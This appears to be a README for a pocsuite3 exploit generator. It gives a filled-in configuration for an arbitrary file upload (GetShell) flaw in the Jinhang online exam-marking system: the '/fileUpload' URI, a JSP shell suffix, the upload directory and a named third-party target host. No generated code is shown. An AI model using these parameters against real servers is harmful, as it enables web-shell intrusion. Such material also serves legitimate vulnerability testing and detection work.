

# exp_code_generator
pocsuite3-exp-生成器

CLASSNAME = 'jinhang_LDY_2022_00137525'
VUL_ID = 'LDY-2022-00137525'
VUL_DATE = '2022-07-04'
CREATEDATE = '2021-9-30'
UPDATEDATE = '2023-01-30'
APP_NAME = 'jinhang'
VUL_NAME = '任意文件上传(GetShell)' #漏洞名称
VUL_NUM  = 'LDY-2022-00137525' #漏洞编号
CVE_NUM = '' #CVE编号
CNVD_NUM = '' #CNVD编号
VUL_TYPE = 'UPLOAD_FILES' # 必填，漏洞类型，参考 pocsuite3 VUL_TYPE的取值范围
POC_CATEGORY = 'EXPLOITS.WEBAPP' # 必填，漏洞分类，参考 pocsuite3 POC_CATEGORY的取值范围
SEVERITY = 'Critical' # 必填，严重等级，取值范围 Critical , High , Medium, Low
REQAUTH = 'False' # 必填，boolen值，该漏洞验证或利用是否需要先认证
FINGERPRINT_NAMES = 'jinhang' # 必填，当命中哪些指纹后，可使用该poc。列表中是指纹的名称
APP_MAIN_PORT = '80' # 必填，该应用的默认配置端口，用于快速扫描模式，若无法确认可以写80
APPVERSION = '<=2018' # 必填，漏洞影响的版本号
APP_POWER_LINK = 'http://www.hsjinhang.com/' # 非必填，应用厂商链接
DESC = '金航网上阅卷系统可以提供以学生、班级、学校、年级、教师、科目、知识点等为测量依据的各种成绩分析报表，并能提供每个学生历次考试结果的综合分析。金航网上阅卷系统存在文件上传漏洞，攻击者可利用该漏洞获取系统权限'
SUGGEST = '厂商尚未提供漏洞修补方案，请关注厂商主页及时更新：http://www.hsjinhang.com/'
HASEXP = 'True' # 必填，boolen值，是否包含exp
TARGETS = 'http://yj.ybwsxx.com.cn:8011' # 必填，该Poc适用的目标，string类型
SURICATA_RULES = 'fileUpload' # 必填，suricata格式的检测规则,这里只需要填写匹配流量包关键词即可
COMMAND = '#'
FILE_PATH = '' #如果不使用file_path=传shell地址，可以使用"#"进行传参数
REFERENCES = '' # 非必填，漏洞相关参考链接
URI = '/fileUpload' #payload请求uri
PAYLOAD_DATA = {'upload': (filename,param,"image/png")} #传入的data数据
UPLOAD_DIRECTORY = '/upload/'
FILE_SUFFIX = 'jsp'
TIMEOUT = 3
METHOD = 'post' # request 请求方式 get、post
HEADERS = "None"
ATTACK_PAYLOAD_DATA = '11'
ATTACK_URI = "" #利用payload请求uri

#### 生成之后的代码

